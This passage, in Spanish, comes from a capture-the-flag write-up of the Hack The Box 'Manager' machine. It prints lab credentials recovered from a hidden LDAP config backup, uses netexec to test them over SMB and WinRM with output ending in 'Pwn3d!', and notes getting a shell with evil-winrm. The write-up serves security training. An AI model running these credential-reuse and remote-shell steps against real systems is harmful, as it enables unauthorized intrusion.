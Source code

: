 Al leer el archivo oculto .old-conf.xml, se descubre que contiene un usuario llamado "raven" y una contraseña "R4v3nBe5tD3veloP3r!123"

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/Backup]
└─# cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>

```

Con la herramienta [netexec](https://github.com/Pennyw0rth/NetExec){:target="_blank"}, se puede verificar en qué servicios estas credenciales responden, similar a como se hizo con el usuario "operator". En este caso, se encuentra que el usuario "raven" tiene conexión con el servicio WinRM.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/Backup]
└─# netexec smb 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.

┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager/Backup]
└─# netexec winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)

```

Se procede a conectarse utilizando la herramienta [evil-winrm](https://github.com/Hackplayers/evil-winrm){:target="_blank"} para obtener una shell con PowerShell, lo que permite obtener la primera flag del usuario.
